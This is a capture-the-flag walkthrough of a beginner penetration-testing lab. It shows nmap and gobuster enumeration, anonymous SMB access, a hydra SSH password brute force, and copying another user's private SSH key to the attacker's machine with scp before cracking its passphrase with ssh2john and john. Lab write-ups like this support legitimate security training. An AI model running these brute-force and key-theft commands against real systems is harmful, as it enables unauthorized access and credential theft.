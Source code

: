 # Basic Pentesting Writeup

The topics of this room are: 
- service enumeration
- brute forcing
- hash cracking 
- Linux enumeration

## Question 2: *find the services exposed by the machine*

We'll be able to get these informations using a **nmap** scan, running the following command to save the output on *initial* directory. 

``nmap -sV -sC -oA nmap/initial 10.10.164.153`` 

The output: 
<code>

    # Nmap 7.92 scan initiated Wed Apr 20 09:27:34 2022 as: nmap -sV -sC -oA nmap/initial 10.10.164.153
    Nmap scan report for 10.10.164.153
    Host is up (0.076s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
    |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
    |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
    80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
    |_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled but not required
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-time: 
    |   date: 2022-04-20T13:27:52
    |_  start_date: N/A
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: basic2
    |   NetBIOS computer name: BASIC2\x00
    |   Domain name: \x00
    |   FQDN: basic2
    |_  System time: 2022-04-20T09:27:51-04:00

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Apr 20 09:27:56 2022 -- 1 IP address (1 host up) scanned in 22.13 seconds

</code>

## Question 3: *What is the name of the hidden directory on the web server (enter name without/)?*

To retrieve these informations we can use **gobuster** with *dir* option:

``gobuster dir -w /home/kali/SecLists-master/Discovery/Web-Content/common.txt -u http://10.10.164.153 -o gobusterCommonRoot.txt``

As a result you will see that there is a page (with status code 301), and this is `/development`. You can visit it.

## Question 4-5-6-7: *Use brute-forcing to find the username & password* 

To find a username to establish a ssh connection to the remote machine, I'll try to connect to the `smb` service (we know that SMB is used from the previous *nmap* scanning). 

First we are going to list the shared folders: 

``smbclient -L \\\\10.10.164.53\\``

As a result, we'll obtain that the unique shared folder that we can access is *Anonymous*. 

We'll get the access to *Anonymous* using **smbclient**:

``smbclient -N //10.10.164.53/Anonymous``

Now, we have access to smb shell. Using `dir` command inside it, we'll observe a file *staff.txt*. We'll copy it to our local machine as follow: 

``get staff.txt``

And so, let's cat the content of this file:

![staff](/BasicPentesting/images/staff.png "staff.txt")

The answer to question 5 is: *Jan*. 

To bruteforce the password, we are going to use **hydra** tool: 

``hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.164.53 ``

As you can see, we are bruteforcing the password for a ssh connection, because from the previous nmap scan we've seen that port 22 is open. 

At this point, we can login into the system using the password retrieved: 

``ssh jan@10.10.164.53``

## Question 8: *What is the name of the other user you found(all lower case)?*

Navigating on remote machine's file system, we can see the ``/home/kay`` folder. So, *kay* is the other user. 

## Question 9: *What is the final password you obtain?*

This is a little privilege escalation task. 
In /home/kay we can see a file: *pass.bak*, but jay doesn't have access to it. So we have to log into machine as *kay*. 

Using ``ls -la`` command in /home/kay, we can see the hidden directory *.ssh*. Now, we can copy *id_rsa* file to our local machine, to get the RSA key and then connect using ssh. 

<code>

    scp id_rsa kali@<your-ip>:/home/kali/<your_directory>

    ssh -i id_rsa kay@<victim-ip>

</code>

Unfortunately, connection is protected by a passphrase. We have to bruteforce it, using **johnTheRipper*. 
First of all, from kay ssh private key, we have to get hash: 

``python3 /usr/share/john/ssh2john.py id_rsa > idrsajohn.txt`` 

Now, we are able to crack it: 

``john --wordlist=/usr/share/wordlists/rockyou.txt idrsajohn.txt``

After that, we can connect again using ssh and the newly obtained passphrase, to cat *pass.bak* file and complete the room. 







